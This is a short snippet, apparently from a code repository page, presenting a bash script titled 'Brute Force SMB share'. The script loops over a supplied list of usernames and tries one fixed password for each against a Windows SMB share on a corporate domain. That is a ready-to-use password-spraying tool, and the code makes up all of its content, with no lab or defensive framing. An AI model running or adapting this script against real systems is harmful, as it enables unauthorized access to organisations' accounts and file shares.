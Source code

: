 Brute Force SMB share
-------------------------------
```bash
#!/bin/bash
# Usage smb-brute.sh /path/to/list/of/usernames.txt
usernames=$1
while read u; do
smbclient \\\\server01.domain.corp.com\\ShareName -U 'Domain-Name\'$u'%passwordgoeshere'
done < "$usernames"
```
